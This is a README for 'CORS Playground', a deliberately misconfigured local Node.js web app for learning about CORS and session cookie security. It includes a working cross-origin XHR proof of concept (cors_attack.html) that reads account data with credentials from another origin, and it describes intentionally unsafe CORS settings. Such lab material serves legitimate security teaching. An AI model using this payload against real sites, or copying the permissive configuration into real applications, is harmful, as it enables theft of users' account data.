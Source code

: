 ## CORS Playground
### Description

CORS playground provides a simple web application that you can utilise to enhance your comprehension of Cross Origin Resource Sharing. By default, it comes with CORS configured in a very unsafe way and could be easily exploited from different origins.

To make the most out of the CORS playground application, you are highly encouraged to play with the CORS settings and the session's cookie attributes both within the application code as well as different origin values. This cannot be stressed enough, changing the settings mentioned, testing them with different browsers and seeing how both CORS and the session's cookie behave under different configurations will increase your knowledge of these two critical components of web application security, their common misconfigurations; exploitation and how to secure them properly

### Default settings
CORS playground runs over https and listens on port number 5555

### URLs/endpoints
```http
POST /login.html
GET /main_page.html
GET /logout
GET /api/v2/accounts
GET /api/v1/accounts
```

### Example
The following is an example of running CORS playground on your local machine.

1. Add the following entries to the file /etc/hosts (remove the comments). You could use all these domains to test different values of the domain and SameSite cookie attribute.
```bash
127.0.0.1 playground.cors.test               ## Domain for the CORS playground application itself.
127.0.0.1 project.cors.test                  ## Same level domain as playground.cors.test.
127.0.0.1 pts.playground.cors.test           ## Subdomain of playground.cors.test
127.0.0.1 pts.playground.cors.test.com.au    ## domain .com.au
127.0.0.1 cors.test                          ## parent domain of playground.cors.test
127.0.0.1 another.domain.com                 ## A totally different domain
```
2. Run CORS playground with the command `nodejs app.js` (if first time, run the command `npm install` to install the dependencies) then open it up on a browser as `https://playground.cors.test:5555/` and log in.
3. Run an Apache web server over TLS.
4. Paste the following HTML code into a file named cors_attack.html (this file is also provided in this repository) and saved it on your apache webroot which by default is: `/var/www/html/`

```html
<!DOCTYPE html>
<html>
<head><meta charset="UTF-8"></head>
<body>
<script>
 var xhr = new XMLHttpRequest();
 xhr.onreadystatechange = function() {
  if (xhr.readyState == XMLHttpRequest.DONE) {
   console.log(xhr.response);
  }
 }
 url = 'https://playground.cors.test:5555/api/accounts';
 xhr.open('GET',url,true);
 xhr.setRequestHeader('CORS-playground','Penetration Testing Team');
 xhr.withCredentials = true;
 xhr.send();
</script>
</body>
</html>
```
5. Open the following url `https://another.domain.com/cors_attack.html` on a browser and look that the account information is display on the browser console.
6. Use a http proxy such as Burp or the developer tools of the browser to observe the CORS requests/responses.
### Jump in
To keep improving your skills and knowledge of CORS you might like to:

1. Add/delete/modify the attributes of the cookie generated within this application. Look for the line:
```node
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'None'});
```
 Some settings you could try:
```node
res.cookie('session',randomvalue.toString(), {domain: '.playground.cors.test', httpOnly: true, secure: true, sameSite: 'Lax'});
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'Strict'});
```
2. In the corsHandler function within the code of this application, uncomment the the section you'd like to play with and comment the remaining ones.
### References:
1. [CORS tutuorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
2. [Same Origin Policy tutorial](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
3. [Cookies tutorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
4. [portswigger CORS labs](https://portswigger.net/web-security/cors)
